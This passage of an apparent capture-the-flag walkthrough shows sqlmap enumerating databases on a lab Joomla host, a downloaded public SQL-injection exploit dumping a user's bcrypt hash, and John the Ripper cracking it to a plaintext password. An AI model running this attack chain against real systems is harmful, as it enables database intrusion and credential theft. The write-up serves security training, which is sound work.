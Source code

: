 ~~~
[16:54:42] [INFO] retrieved: 'joomla'
[16:54:42] [INFO] retrieved: 'mysql'
[16:54:43] [INFO] retrieved: 'performance_schema'
[16:54:43] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[16:54:43] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2507 times
[16:54:43] [INFO] fetched data logged to text files under '/home/unknown/.sqlmap/output/10.10.233.69'

[*] ending @ 16:54:43 /2020-06-14/

~~~

We can find existing exploits, like this one:

~~~
unknown@kali:/data/tmp$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
unknown@kali:/data/tmp$ python joomblah.py http://10.10.233.69

[REDACTED]

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
~~~

Now that we have Jonah's hash, let's crack it with John:

~~~
unknown@kali:/data/tmp$ cat jonah.hash 
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
unknown@kali:/data/tmp$ /data/src/john/run/john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
